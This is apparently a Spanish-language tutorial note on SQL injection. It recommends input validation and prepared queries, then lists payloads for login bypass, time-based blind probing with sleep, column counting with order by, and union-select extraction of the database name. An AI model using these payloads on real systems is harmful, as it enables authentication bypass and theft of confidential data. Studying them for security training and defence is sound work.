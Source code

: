 Es importante entender los diferentes tipos de inyecciones SQL y cómo pueden utilizarse para obtener información confidencial y controlar una base de datos. Los desarrolladores deben asegurarse de validar adecuadamente la entrada del usuario y de utilizar técnicas de defensa, como la sanitización de entrada y la preparación de consultas SQL, para prevenir las inyecciones SQL en sus aplicaciones web.

A continuación, se proporciona el enlace a la utilidad online de ‘**ExtendsClass**‘ que utilizamos en esta clase:

-   **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)


## Comandos 

Tenemos: **DB > TABLAS > COLUMNAS > DATOS**
**Antes de la primer coma debemos de colocar un valor que no exista en la DB. Asi lo que inyectemos se podra visualizar.**

* [Cheat-Sheet-SQLI](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Inyecciones mirando el error en el Output

Debemos de adivinar cuantas columnas existen. Esperando a que ya no nos muestre el **error**.
* La mayoría de las inyecciones las puedes hacer empezando por  '
* Dependiendo de la web podemos iniciar con comilla y a veces no, cuando es el caso también no es necesario colocar el comentario -- - al final de la query.
* Un indicio de inyección SQL es encontrar en la url **.php?id=** No es necesario que diga **id** también puede tener otro parámetro. 

```bash
❯ ' or '1'='1                                         # La mas sencilla y nos devolveria un true, dejamos una comilla sin cerrar ya que la propia query la cerrara
❯ ' or 1=1-- -                                        # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion 
❯ <user>'-- -                                         # Este se usa en un panel de login 
❯ ' or sleep(5)-- -                                   # Haremos que tarde en responder la web 5 segundos
❯ ' and sleep(5)-- -                                  # Haremos que tarde en responder la web 5 segundos
❯ ' order by 100-- -                                  # Haremos un ordenamiento con la 100va columna e iremos adivinando hasta que no nos marque un error
❯ ' and if()-- a                                      
```

Después de saber cuantas columnas existen podemos usar Union Select para meter un data en ese columna, esperando a que también esa columna acepte datos. Aquí tendríamos un ejemplo de que existen 3 columnas. Pero pueden ser mas o menos, dependiendo la DB.
```bash
❯ ' union select 1,2,3 -- -                           # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo
❯ ' union select NULL,NULL,NULL -- -                  # Aveces solo acepta NULL en lugar de numeros
❯ ' union select "test",NULL,NULL -- -                # Podemos colocar texto 
❯ ' union select database(),NULL,NULL -- -            # Queremos que muestre el nombre de la base de datos actual en uso
```
